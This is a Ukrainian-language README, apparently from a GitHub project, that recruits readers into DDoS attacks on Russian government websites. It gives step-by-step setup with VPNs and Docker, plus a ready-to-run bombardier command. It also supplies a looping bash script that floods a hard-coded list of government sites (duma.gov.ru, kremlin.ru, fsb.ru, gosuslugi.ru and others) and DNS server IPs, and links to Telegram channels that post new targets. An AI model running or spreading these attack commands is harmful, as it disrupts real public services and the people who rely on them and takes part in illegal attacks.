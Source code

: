 # Android/iOS
**Впевніться, що у вас достатньо заряду акумулятора та є доступ до зарядки**  
1. За можилвості встановіть VPN (сервіси дуже швидко блокують ip адреси з України)  
- [F-Secure](https://www.f-secure.com/en/home/login)  
- [список альтернативних сервісів](https://t.me/c/1627443142/3) 
2:   
[Android/iOS]  
Просто відкрийте і залиште сайт відкритим - [https://stop-russian-desinformation.near.page/](https://stop-russian-desinformation.near.page/)  
[Android]  
[Встановіть додаток та слідуйте туторіалу за посиланням](https://telegra.ph/YAk-ddositi-na-telefon%D1%96-02-24)  
Нові адреси для ddos атаки публікуються в [Telegram каналі](https://t.me/+97Y45he5lOI2ZTky)  

# Windows/Mac/Linux
1. Встановіть [Docker](https://www.docker.com/products/docker-desktop)
2. Встановіть VPN 
- [F-Secure](https://www.f-secure.com/en/home/login) - РЕКОМЕНДОВАНО
- [ProtonVPN](https://protonvpn.com/download)
- [Windscribe](https://windscribe.com/download)
- [ClearVPN](https://my.clearvpn.com/enter)
- [Urban VPN](https://www.urban-vpn.com/)
4. Запустіть в терміналі команду
```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
(замініть `https://www.gosuslugi.ru` на необхідний сайт - нові адреси для ddos атаки публікуються в [Telegram каналі](https://t.me/+97Y45he5lOI2ZTky))  
**Ви можете відкрити декілька вікон терміналу**  

# Канали для новин та координації
- [https://t.me/+97Y45he5lOI2ZTky](https://t.me/+97Y45he5lOI2ZTky)
- [https://t.me/ddosRussians](https://t.me/ddosRussians)
- [https://t.me/itguildukraine](https://t.me/itguildukraine)

# Доповнення  
Можете створити файл `ddos.sh` з контентом:
```
#!/bin/bash -x
DESTS=( "http://duma.gov.ru/" "http://president-sovet.ru/" "https://sovetnational.ru/" "https://www.gosuslugi.ru/ru/" "https://zakupki.gov.ru/epz/main/public/home.html" "https://gossluzhba.gov.ru/" "http://defence.council.gov.ru/" "http://budget.council.gov.ru/" "http://www.kremlin.ru/" "https://government.ru/" "http://www.scrf.gov.ru/" "http://www.ksrf.ru/ru/Pages/default.aspx" "http://www.vsrf.ru/" "http://premier.gov.ru/events/" "https://www.mchs.gov.ru/" "https://minjust.gov.ru/ru/" "http://www.fsb.ru/" "https://rosguard.gov.ru/" "https://customs.gov.ru/" "https://udprf.ru/" "http://favt.gov.ru/" "http://194.67.2.109:53/UDP" "http://194.67.7.1:53/UDP" "http://194.54.14.187:53/UDP" "http://194.54.14.186:53/UDP" )
TIME="180s"
while TRUE
do
   for DEST in ${DESTS[@]}
   do
       docker run -ti --rm alpine/bombardier -c 1000 -d $TIME -l $DEST
   done
done
```
та запустити з допомогою команди `chmod +x ddos.sh && sh ddos.sh` в терміналі  

# Корисні ресурси
- [Туторіал по DDoS](https://tarahtino.notion.site/tarahtino/DDoS-1505b74f6f8443768dc47e0f4d2ee8b2)

## Ресурси для атаки (краще слідкувати за апдейтами в Telegram)
`http://duma.gov.ru/` `http://president-sovet.ru/` `https://sovetnational.ru/` `https://www.gosuslugi.ru/ru/` `https://zakupki.gov.ru/epz/main/public/home.html` `https://gossluzhba.gov.ru/` `http://defence.council.gov.ru/` `http://budget.council.gov.ru/` `http://www.kremlin.ru/` `https://government.ru/` `http://www.scrf.gov.ru/` `http://www.ksrf.ru/ru/Pages/default.aspx` `http://www.vsrf.ru/` `http://premier.gov.ru/events/` `https://www.mchs.gov.ru/` `https://minjust.gov.ru/ru/` `http://www.fsb.ru/` `https://rosguard.gov.ru/` `https://customs.gov.ru/` `https://udprf.ru/` `http://favt.gov.ru/`

[Contribute](https://github.com/domanskyi/xsquad)
